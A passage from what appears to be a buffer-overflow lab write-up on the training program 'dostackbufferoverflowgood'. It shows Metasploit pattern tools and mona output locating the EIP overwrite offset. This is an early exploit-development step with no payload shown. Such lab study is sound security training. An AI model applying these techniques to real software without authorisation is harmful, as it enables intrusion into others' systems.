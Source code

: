 `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb` creates a long string which doesn't repeat so we can use that to find the offset.

![Immunity debugger finding the offset](/assets/images/dostackbufferoverflowgood/1.c%20Immunity%20debugger%20finding%20the%20offset.png)

```bash
luc@kali:~/dostackbufferoverflowgood$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 39654138
[*] Exact match at offset 146
```

We can see `39654138` in EIP and we can use `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb` to find the offset based on that.

```bash
!mona findmsp
...
[+] Examining registers
    EIP contains normal pattern : 0x39654138 (offset 146)
    ESP (0x009d19e4) points at offset 150 in normal pattern (length 1850)
    EBP contains normal pattern : 0x65413765 (offset 142)
...
```
